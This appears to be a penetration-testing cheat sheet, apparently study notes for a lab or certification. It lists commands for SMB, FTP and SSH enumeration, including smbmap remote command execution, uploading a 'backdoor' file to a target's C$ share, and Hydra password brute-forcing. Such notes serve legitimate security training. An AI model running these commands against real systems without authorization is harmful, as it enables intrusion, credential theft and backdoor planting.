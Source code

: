 
## PART 2: Host & Network Penetration Testing

### I. Enumeration

#### 1. SMB
**Nmap Commands**  
- Basic: `sudo nmap -p 445 -sV -sC -O <TARGET_IP>`  
- Top UDP Ports: `nmap -sU --top-ports 25 --open <TARGET_IP>`  
- SMB Scripts:  
  - `nmap -p 445 --script smb-protocols <TARGET_IP>`  
  - `nmap -p 445 --script smb-enum-shares --script-args smbusername=<USER>,smbpassword=<PW> <TARGET_IP>`  
  - `nmap -p 445 --script smb-os-discovery <TARGET_IP>`  

**SMBMap**  
- Guest: `smbmap -u guest -p "" -d . -H <TARGET_IP>`  
- Creds: `smbmap -u <USER> -p '<PW>' -H <TARGET_IP>`  
- RCE: `smbmap -u <USER> -p '<PW>' -H <TARGET_IP> -x 'ipconfig'`  
- Drives: `smbmap -u <USER> -p '<PW>' -H <TARGET_IP> -L`  
- Dir List: `smbmap -u <USER> -p '<PW>' -H <TARGET_IP> -r 'C$'`  
- Upload: `smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --upload '/root/backdoor' 'C$\backdoor'`  
- Download: `smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --download 'C$\flag.txt'`

**SMBClient**  
- List Shares: `smbclient -L <TARGET_IP> -N`  
- Connect Anon: `smbclient //<TARGET_IP>/public -N`  
- With User: `smbclient -L <TARGET_IP> -U <USER>`  
- Commands: `help`, `ls`, `get <filename>`

**Rpcclient**  
- Anon: `rpcclient -U "" -N <TARGET_IP>`  
- Commands: `enumdomusers`, `enumdomgroups`, `lookupnames admin`

**Enum4linux**  
- All Options: `enum4linux -a -u "<USER>" -p "<PW>" <TARGET_IP>`  
- Users: `enum4linux -U <TARGET_IP>`  
- Shares: `enum4linux -S <TARGET_IP>`  

**Hydra**  
- `hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> smb`

**Metasploit**  
- `use auxiliary/scanner/smb/smb_version`  
- `use auxiliary/scanner/smb/smb_login`

#### 2. FTP
- Anon Check: `nmap --script ftp-anon -p21 <TARGET_IP>`  
- Connect: `ftp <TARGET_IP>`  
- Brute-Force: `hydra -L <USERS_LIST> -P <PW_LIST> <TARGET_IP> ftp`

#### 3. SSH
- Version Scan: `nmap -p 22 -sV -sC -O <TARGET_IP>`  
- Brute-Force: `hydra -l <USER> -P /usr/share/wordlists/rockyou.txt <TARGET_IP> ssh`
